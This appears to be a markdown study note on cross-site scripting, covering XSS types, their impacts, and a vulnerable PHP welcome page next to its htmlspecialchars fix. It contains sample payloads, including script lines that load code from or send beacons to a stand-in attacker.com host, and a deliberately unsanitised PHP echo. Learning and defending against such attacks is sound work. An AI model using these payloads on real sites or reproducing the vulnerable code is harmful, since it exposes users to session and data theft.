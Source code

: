 # Cross Site Scripting (XSS)

## Exploitable Fields
Fields where users are allowed to insert data, and in response, user generated content is returned. This can be a variety of different fileds including:

- Search queries
- Form inputs (text fields, text areas)
- URL parameters
- Chat messages
- Comments sections
- User profiles


## Impact of Exploitation
Since XXS attacks are executed upon accessing a site, depending on the strucutre of the attack, it can be affected against numerous users.

- Session Hijacking: Stealing user sessions to perform actions on behalf of the user.
- Cookie Theft: Stealing session cookies to impersonate users.
- Data Theft: Extracting sensitive user information from the page.
- Keylogging: Capturing user keystrokes.
- Phishing: Redirecting users to fake login pages to steal credentials.
- Defacement: Modifying the appearance of the website.
- Malware Distribution: Redirecting users to sites hosting malware.

## Types of Cross Site Scripting (XSS)

### Reflective XSS
In a reflective XXS attack, upon exploitation the malicious script is reflected off of the web server and executes on the users browser window. The traditional example of this is a URL with a XXS payload appended to the end being sent to a victim, where the payload triggers the 'alert' function of the browser. 

``` http://example.com/search?query=<script>alert('XSS Attack!');</script> ```

### Stored/Persistant XXS
In a stored or persistant XXS attack, the exploit script is saved into a databse or onto the website for persistant execution upon ever visit to the site. A common example of this is a webpage that allows for user comments or posts, where the XXS script is inserted as a comment or uploaded to the page in general. 

In a comment: ``` <script>alert('XSS Attack!');</script>  ```
In a forum post: ``` <script src="http://attacker.com/malicious.js"></script> ```


### Blind Reflective & Stored/Persistant XSS
In a blind reflective attack, the user does not see evidence of the attacks success on their browser page. Instead they can have the script call out to an external web server and check for attempted access in order to validate. Or use time delays in order to check that the script is succesful. This is successfull The following script is an example that could be injected into the mentioned applicable fields. 

Out-of-Band XXS:
```
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("GET", "http://attacker.com/logger?data=executed", true);
  xhr.send();
</script>
```

Time-Based XXS
```
<script>
  var startTime = new Date().getTime();
  while (new Date().getTime() - startTime < 5000) {}
  var img = new Image();
  img.src = "http://attacker.com/logger?data=executed";
</script>
```

### DOM-Based XSS:
In a DOM-based XSS attack, the vulnerability is in the client-side code (usually JavaScript) rather than the server-side code. The malicious payload is processed by the client's browser and can manipulate the DOM to execute arbitrary code. This vulnerability is associated to the browser the user is using while accessing a site.

```
http://example.com/page#<script>alert('XSS Attack!');</script>
```


### Client-Side Template Injection (CSTI) 
If the application uses client-side templating engines like AngularJS or Vue.js and evaluates expressions within double curly braces ({{ ... }}), the attacker can inject arbitrary JavaScript code. This XXS type is also blind, and would execute any JS included inside the mentioned brackets. 


### Self (XSS)
Has to do with social engineer a victim into entering a script in their browsers console. 

## Vulnerable Code Example
In a website where the page welcomes it's users with "Welcome *Username* " where it pulls the username from the url example.com/welcome.php?username=*username* and used the following vulnerable code, it would be vulnerable to the reflective XXS attack ``` example.com/welcome.php?username=<script>alert('XSS Attack!');</script> ``` The vulnerable code may look like the following as it does not sanatize the input.

```
<!DOCTYPE html>
<html>
<head>
    <title>XSS Vulnerable Page</title>
</head>
<body>
    <h1>Welcome, <?php echo $_GET['username']; ?>!</h1>
</body>
</html>
```

## Remediated Code Example
The remediated code for the above section would be something like the following, where the $_Get['username'] function is santized to only be a html string and not executable. 

```
<!DOCTYPE html>
<html>
<head>
    <title>XSS Protected Page</title>
</head>
<body>
    <h1>Welcome, <?php echo htmlspecialchars($_GET['username']); ?>!</h1>
</body>
</html>
```




